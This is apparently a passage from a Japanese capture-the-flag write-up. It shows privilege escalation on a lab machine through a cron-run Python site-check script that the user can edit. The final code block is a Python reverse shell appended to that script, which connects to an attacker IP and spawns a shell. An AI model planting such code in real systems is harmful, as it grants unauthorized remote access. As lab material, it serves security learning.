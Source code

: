```shell
-rw-r--r-- 1 adrian adrian            0 Mar 15  2022 .sudo_as_admin_successful
-rw-r----- 1 root   adrian           56 Mar 16  2022 user.txt
-rw------- 1 adrian adrian            0 Mar 16  2022 .viminfo
```

query.py

```shell
daniel@ip-10-10-108-81:/home/adrian$ cat ./query.py 
from datetime import datetime
import requests

now = datetime.now()

r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
```

site_status.txt

```shell
daniel@ip-10-10-108-81:/home/adrian$ cat ./site_status.txt 
Site is Up: 11/05/2025 03:00:02
Site is Up: 11/05/2025 03:01:01
Site is Up: 11/05/2025 03:02:01
Site is Up: 11/05/2025 03:03:01
Site is Up: 11/05/2025 03:04:02
```

daniel は administrators なので、query.py を編集できる。

```shell
daniel@ip-10-10-108-81:/home/adrian$ id
uid=1001(daniel) gid=1001(daniel) groups=1001(daniel),1002(administrators)
```

query.py の一番下に、下記コードを追加。

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.2.22.182",8888));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty;
pty.spawn("sh")
```

